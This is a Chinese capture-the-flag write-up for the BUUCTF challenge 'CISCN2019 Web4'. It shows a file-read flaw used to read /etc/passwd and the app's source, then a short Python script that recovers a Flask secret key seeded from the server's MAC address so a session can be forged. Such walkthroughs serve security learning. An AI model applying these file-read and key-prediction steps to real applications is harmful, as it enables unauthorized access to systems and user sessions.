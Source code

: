 ﻿---
title: BUUCTF(五)
categories: ctf题目
---

# 前言

BUU - 五



# [CISCN2019 华东南赛区]Web4

一个url参数，过滤了file，提示no hack，这个路由也有点奇怪，如果是php因该是index.php?xxx，尝试/etc/passwd成功

![image-20220216164625009](https://img-blog.csdnimg.cn/img_convert/be95323c75f12e020bbfeaac994246fd.png)



读取一下当前进程，知道是python 源码在 **/app/app.py**

![image-20220222002226791](https://img-blog.csdnimg.cn/img_convert/fbda89f1797fd866b03653fcb0ffb523.png)



```python
random.seed(uuid.getnode())
app.config['SECRET_KEY'] = str(random.random()*233)


@app.route('/flag')
def flag():
    if session and session['username'] == 'fuck':
        return open('/flag.txt').read()
```

这两行

```
random.seed(uuid.getnode())  
app.config['SECRET_KEY'] = str(random.random()*233)
```

伪随机数，uuid.getnode()获取mac地址，linux下mac地址的位置：**/sys/class/net/eth0/address**

```
import random

mac="02:42:ae:00:4b:75 "
nmac=mac.replace(":", "")
random.seed(int(nmac,16))
key = str(random.random() * 233)
print(key)
```

然后伪造session
